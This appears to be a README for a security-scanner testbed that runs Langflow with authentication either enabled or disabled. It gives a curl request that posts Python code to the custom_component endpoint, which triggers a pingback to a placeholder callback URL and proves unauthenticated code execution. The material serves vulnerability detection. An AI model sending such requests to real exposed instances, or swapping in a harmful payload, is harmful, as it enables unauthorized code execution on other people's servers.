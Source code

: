 # Langflow Exposed UI

Langflow is a tool for building and deploying AI-powered agents and workflows.
This testbed demonstrates exposed and non-exposed configurations of langflow UI.

## Safe setup

```shell
LANGFLOW_AUTO_LOGIN=false docker compose up -d
```

## Vulnerable setup

```shell
LANGFLOW_AUTO_LOGIN=true docker compose up -d
```

## Reproduction Steps

Issue the following curl command to get a pingback from the docker compose.

```sh
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"code\":\"import requests\\n\\nfrom langflow.custom import Component\\n\\nclass TsunamiComponent(Component):\\n    def __init__(self, *args, **kwargs):\\n        super().__init__(*args, **kwargs)\\n        requests.get(\\\"https://<YOUR CALLBACK URL>\\\", timeout=5)\\n\\n\"}' \
    $'http://127.0.0.1:7860/api/v1/custom_component'
```

- Safe instances will return `403 FORBIDDEN`
- Vulnerable instances will return `200 OK`

## References

- <https://github.com/langflow-ai/langflow/tree/main>
- <https://docs.langflow.org/configuration-authentication#langflow_auto_login>
